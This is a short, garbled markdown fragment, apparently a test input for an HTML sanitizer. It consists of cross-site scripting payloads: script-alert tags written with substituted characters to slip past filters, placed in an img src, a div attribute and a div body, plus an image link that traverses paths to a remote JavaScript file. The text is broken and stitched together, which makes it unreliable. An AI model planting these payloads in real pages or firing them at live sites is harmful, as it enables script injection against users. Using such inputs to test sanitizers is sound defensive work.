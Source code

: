 ![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)

